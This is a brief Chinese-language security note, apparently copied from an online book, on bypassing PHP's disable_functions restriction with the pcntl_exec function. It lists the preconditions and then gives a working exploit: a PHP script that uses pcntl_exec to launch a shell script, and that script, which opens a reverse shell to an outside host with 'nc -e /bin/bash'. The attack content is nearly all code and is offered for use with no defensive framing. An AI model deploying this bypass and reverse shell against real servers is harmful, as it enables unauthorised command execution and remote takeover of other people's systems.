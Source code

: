 > 原文：[http://book.iwonder.run/安全技术/Disable functions/4.html](http://book.iwonder.run/安全技术/Disable functions/4.html)

## ***利用 pcntl_exec 绕过***

**1\. 前提条件**

PHP 安装并启用了 pcntl 插件

**2\. 基本原理**

利用 pcntl_exec()这个 pcntl 插件专有的命令执行函数来执行系统命令，从而绕过 disable_functions

**3\. exp**

> exp.php

```
#利用 pcntl_exec()执行 test.sh
<?php
if(function_exists('pcntl_exec')) {
  pcntl_exec("/bin/bash", array("/tmp/test.sh"));
} else {
    echo 'pcntl extension is not support!';
}
?> 
```

> test.sh

```
#!/bin/bash
nc -e /bin/bash 1.1.1.1 8888    #反弹 shell 
```

